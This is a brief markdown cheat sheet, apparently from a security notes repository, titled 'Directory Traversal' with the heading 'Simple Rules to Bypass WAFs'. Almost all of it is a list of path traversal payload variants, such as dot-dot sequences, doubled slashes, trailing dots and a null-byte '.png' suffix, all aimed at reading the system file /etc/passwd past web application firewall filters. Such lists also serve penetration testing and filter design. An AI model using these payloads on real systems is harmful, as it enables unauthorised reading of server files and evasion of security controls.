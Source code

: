 <h1>$${\color{red}Directory} \space {\color{Goldenrod}Traversal }$$</h1>


## Simple Rules to Bypass WAFs

### Instead of using:

```/etc/passwd```

### The best choice is:

```
/too/../etc/far/../passwd
/etc//passwd
/etc/ignore/../passwd
/etc/passwd.......
../../../../../../../etc/passwd
/etc/passwd%00.png
```
